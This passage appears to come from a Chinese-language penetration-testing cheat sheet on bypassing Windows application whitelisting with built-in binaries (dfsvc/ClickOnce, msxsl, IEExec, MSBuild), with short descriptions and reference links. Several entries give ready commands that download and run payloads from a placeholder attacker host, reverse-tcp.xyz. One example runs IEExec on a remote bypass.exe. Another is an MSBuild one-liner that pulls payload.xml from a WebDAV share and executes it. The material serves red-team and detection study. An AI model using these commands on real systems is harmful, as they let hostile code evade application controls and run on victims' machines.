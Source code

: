Links：

- https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html
- https://enigma0x3.net/2016/11/21/bypassing-application-whitelisting-by-using-rcsi-exe/

#### DFSVC

dfsvc.exe是用来检查应用程序是否已经安装并且是最新的，如果需要的话将应用程序下载到用户AppData中的ClickOnce文件夹，然后从当前位置（随着每次更新而改变）启动它。NetSPI团队在之前有分析过利用ClickOnce这种方法在钓鱼当中的利用，但在渗透中还是需要一定的场景。

```
rundll32.exe dfshim.dll,ShOpenVerbApplication http://reverse-tcp.xyz/application/?param1=foo
```

Links:

- http://www.sixdub.net/?p=555

#### MSXSL

根据Microsoft的msxsl.exe命令行程序，用户能够使用Microsoft XSL处理器执行命令行可扩展样式表语言（XSL）。 但是，这个二进制文件可以用来执行恶意的JavaScript代码并绕过应用程序白名单保护。

```powershell
msxsl.exe customers.xml script.xsl
```

Links:

- https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/

#### IEExec

IEExec.exe也是.Net框架中的一个可执行文件，能够通过指定URL来运行托管在远程目标上的应用程序。

```powershell
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\IEExec.exe http://reverse-tcp.xyz/bypass.exe
```

Links:

- https://pentestlab.blog/2017/06/13/applocker-bypass-ieexec/

#### MSBuild

MSBuild，它引入一种新的基于 XML 的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild 项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。MSBuild 编译后生成的是.exe

它的利用姿势是相对新颖的，可以参考以下文章

- https://www.anquanke.com/post/id/84597
- https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
- https://github.com/Cn33liz/MSBuildShell

```powershell
C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe File.csproj
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```
